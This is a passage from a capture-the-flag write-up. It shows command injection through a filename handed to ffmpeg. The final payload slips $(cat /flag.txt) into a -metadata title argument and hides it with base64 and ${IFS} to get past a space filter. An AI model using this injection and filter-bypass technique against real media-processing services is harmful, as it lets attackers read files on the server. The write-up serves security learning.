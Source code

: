 We base64 encode `cat /flag.txt > extracted_audio.wav` and use our previous technique once again, but this fails:

![](https://i.imgur.com/ZJSK2Zg.png)

Most likely, it fails because we're not writing to the correct `extracted_audio.wav`. Who knows what directory that file is in? This is a dead end.

If we want to write to the correct `extracted_audio.wav`, there's actually a really simple way.

Recall that originally, the command was likely something like:
```bash
ffmpeg -i <our filename> -vn -acodec copy /somefolder/folder/extracted_audio.wav
```

What if our injection made ffmpeg write the flag into `extracted_audio.wav`? 

In fact, if we take a look at the ffmpeg documentation, we can see a super obvious candidate: the `-metadata` tag.

```
-metadata[:metadata_specifier] key=value (output,per-metadata)
Set a metadata key/value pair.

An optional metadata_specifier may be given to set metadata on streams, chapters or programs. See -map_metadata documentation for details.

This option overrides metadata set with -map_metadata. It is also possible to delete metadata by using an empty value.

For example, for setting the title in the output file:

ffmpeg -i in.avi -metadata title="my title" out.flv
To set the language of the first audio stream:

ffmpeg -i INPUT -metadata:s:a:0 language=eng OUTPUT
```

We'll follow their example and try to set the title of `extracted_audio.wav` to the contents of `/flag.txt`. We'll send this filename:
```bash
sample.mp4 -metadata title=$(cat /flag.txt).mp4
```
To hopefully produce this executed command:
```bash
ffmpeg -i sample.mp4 -metadata title=$(cat /flag.txt).mp4 -vn -acodec copy /somefolder/folder/extracted_audio.wav
```

In our actual payload, we'll base64 encode the `cat /flag.txt` part and replace any spaces with `${IFS}` to ensure we don't have to deal with the filter. This gives us a final payload of:

```bash
sample-mp4-file-small.mp4${IFS}-metadata${IFS}title=$(eval${IFS}$(echo${IFS}Y2F0IC9mbGFnLnR4dA==|base64${IFS}-d)).mp4
```

![](https://i.imgur.com/srJv9Bm.png)

The flag appears in the selected text. Much more elegant!

# Final Remarks

Thanks to kavigihan for creating the challenge. 